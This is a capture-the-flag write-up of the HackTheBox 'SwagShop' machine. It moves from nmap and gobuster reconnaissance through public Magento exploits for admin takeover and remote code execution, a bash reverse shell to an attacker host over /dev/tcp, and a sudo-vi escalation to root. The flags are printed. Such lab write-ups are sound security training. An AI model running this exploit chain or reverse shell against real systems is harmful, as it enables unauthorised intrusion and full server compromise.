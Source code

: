 # SWAGSHOP

## NMAP

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ nmap 10.10.10.140 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 06:59 EDT
Nmap scan report for 10.10.10.140
Host is up (0.31s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 88.10 seconds
                                                                                    
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ nmap 10.10.10.140 -p 22,80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-11 07:00 EDT
Nmap scan report for 10.10.10.140
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.16 seconds
```

## PORT 80

### HOMEPAGE

![](https://github.com/Leo-2807/Writeups/blob/main/images/swagshop1.png)

### GOBUSTER

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.140 -t 100 -x .txt,.jpg,.php -q
/.htpasswd.jpg        (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 300]
/.htpasswd.txt        (Status: 403) [Size: 300]
/.htaccess.php        (Status: 403) [Size: 300]
/.hta                 (Status: 403) [Size: 291]
/.htaccess            (Status: 403) [Size: 296]
/.hta.txt             (Status: 403) [Size: 295]
/.htaccess.txt        (Status: 403) [Size: 300]
/.hta.jpg             (Status: 403) [Size: 295]
/app                  (Status: 301) [Size: 310] [--> http://10.10.10.140/app/]
/.htaccess.jpg        (Status: 403) [Size: 300]                               
/.hta.php             (Status: 403) [Size: 295]                               
/api.php              (Status: 200) [Size: 37]                                
/cron.php             (Status: 200) [Size: 0]                                 
/errors               (Status: 301) [Size: 313] [--> http://10.10.10.140/errors/]
/favicon.ico          (Status: 200) [Size: 1150]                                 
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.140/includes/]
/index.php            (Status: 302) [Size: 0] [--> http://swagshop.htb/]           
/install.php          (Status: 200) [Size: 44]                                     
/index.php            (Status: 302) [Size: 0] [--> http://swagshop.htb/]           
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.140/js/]      
/lib                  (Status: 301) [Size: 310] [--> http://10.10.10.140/lib/]     
/LICENSE.txt          (Status: 200) [Size: 10410]                                  
/media                (Status: 301) [Size: 312] [--> http://10.10.10.140/media/]   
/pkginfo              (Status: 301) [Size: 314] [--> http://10.10.10.140/pkginfo/] 
/server-status        (Status: 403) [Size: 300]                                    
/shell                (Status: 301) [Size: 312] [--> http://10.10.10.140/shell/]   
/skin                 (Status: 301) [Size: 311] [--> http://10.10.10.140/skin/]    
/var                  (Status: 301) [Size: 310] [--> http://10.10.10.140/var/]  
```

I checked through these pages but did not find anything useful 

## EXPLOIT

Doing a quick google search for exploits lead me to this [magento exploit](https://www.exploit-db.com/exploits/37977)


So there is a login page at ```/admin``` and the script will change the username and password so that we can login into it

### /ADMIN

![](https://github.com/Leo-2807/Writeups/blob/main/images/swagshop2.png)

After making some necessary changes to the script and setting the target ```target = "http://10.10.10.140/index.php"``` I ran the script 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ ./37977.py                                                                      
WORKED
Check http://10.10.10.140/index.php/admin with creds user:pass
```

### LOGIN

![](https://github.com/Leo-2807/Writeups/blob/main/images/swagshop3.png)

We find the magento version at the bottom of the page

### SHELL

Now we have the specific version of magento and also authentication

Using searchsploit 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ searchsploit magento 1.9.0.
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execut | php/webapps/37811.py
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execut | php/webapps/37811.py
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I download the exploit and after making some changes and resolving errors I run it

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ ./37811.py http://swagshop.htb/index.php/admin "id"                            
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Now that we have code execution we can get a shell

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/swagshop]
└─$ ./37811.py http://swagshop.htb/index.php/admin "bash -c 'bash -i >&/dev/tcp/10.10.14.3/4444 0>&1'"
```

## USER.TXT

```
www-data@swagshop:/var/www/html$ cd /home
cd /home
www-data@swagshop:/home$ ls
ls
haris
www-data@swagshop:/home$ cd haris
cd haris
www-data@swagshop:/home/haris$ ls
ls
user.txt
www-data@swagshop:/home/haris$ cat user.txt
cat user.txt
a448877277e82f05e5ddf9f90aefbac8
```

## ROOT.TXT

Using ```sudo -l``` to check sudo permissions of our user

```
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

So we have permission to run vi
On searching at [gtfobins](https://gtfobins.github.io/) I found that we can create a shell by using ```:shell``` 

```
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/index.php
:shell
whoami
root
cat /root/root.txt
c2b087d66e14a652a3b86a130ac56721

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```


